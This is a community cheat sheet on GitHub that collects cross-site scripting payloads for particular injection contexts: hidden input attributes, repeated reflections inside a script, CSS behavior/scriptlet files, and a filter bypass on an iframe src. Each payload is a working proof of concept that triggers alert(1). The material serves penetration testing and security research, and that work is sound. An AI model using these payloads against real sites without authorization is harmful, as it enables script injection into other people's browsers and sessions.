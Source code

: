 # About XSS Problems

This is a public cheat sheet to help you solve problems you might encounter while trying to XSS a target, you can contribute by telling me your problems or solutions. If you find a solution, make sure they work in one of the following browsers: Chrome, Firefox, IE/Edge (IE version 9 or above), Safari and Opera. This Cheat Sheet is never finished, so I might add more over time.

Extra solutions to solved problems are also welcome.

---


# Problems and Solutions


## Hidden Input fields


📝 **Problem**

```
<input type="hidden" value="[injection-point]">
```

Greater than (>) and Less than (<) are properly encoded, you can only add attributes to the input tag.

💡 **Solution(s):**

```
'"/autofocus/onfocus='alert(1)'x=
```


**Note:**

This only works if the input element is in the following form.

```
<input value="[injection-point]" type="hidden">
```

It's not very common but it does happen.

By [me](https://twitter.com/Karel_Origin).

💡

```
'"/onclick='alert(1)'/accesskey='X'
```


**Note:**

Requires you to press ALT+SHIFT+X on Windows/Linux or CTRL+ALT+X on OS X. (Only works in Firefox.)

By [PortSwigger](http://blog.portswigger.net/2015/11/xss-in-hidden-input-fields.html).

---



## Multiple reflections in a script context


📝 **Problem**

```
x = "[injection-point]"
y = "[injection-point]"
```

Double quotes are properly encoded, it's only possible to escape the string with %0A and escape quotes using \


**Note:**

The same parameter is used for both injection points.

Injecting "1" in parameter "x" will result in:

```
x = "1"
y = "1"
```

💡 **Solution(s):**

```1";alert(1);//</script><!--```
---



## CSS Injection to XSS

📝 **Problem**

```
<input style="[injection-point]">
```


**Note:**

We dont want to double fire the payload.


💡 **Solution(s):**

```
behavior: url(xss.htc)
```

Contents xss.htc:
```
<script>alert(1)</script>
```


**Note:**

xss.htc needs to be served as `text/x-component` and only works in docmode 9 which makes this payload pretty useless

💡

```
behavior: url(xss.txt)
```

Contents xss.txt:
```
<scriptlet>  
    <implements type="behavior"/>
    <script>alert(1)</script>
</scriptlet>  
```


**Note:**

This doesn't work Cross-Domain, which means that you need to be able to upload a file to the current domain. The file needs to be served with one of the following Content-Types.

1. text/html
1. text/plain
1. image/*
1. video/mpeg
1. video/avi

This technique won't work if the site uses the `X-Content-Type-Options: nosniff` or `Content-Disposition: attachment` header.

By [Filedescriptor](http://blog.innerht.ml/cascading-style-scripting/).

---



## Reflection in the src attribute


📝 **Problem**

The word 'javascript' is blacklisted, so javascript:alert(1); will be filtered.  


**Note:**

The reflection happens <iframe src="[here]">, and quotes are properly encoded.



💡 **Solution(s):**

By using a tab in the middle of the word, we can bypass the blacklist.

```Javascr%09ipt:alert(1)```

---



# Contribute

That's it! feel free to [submit](https://github.com/karelorigin/XSS-Problems/issues/new) an issue and help others with their XSS problems.
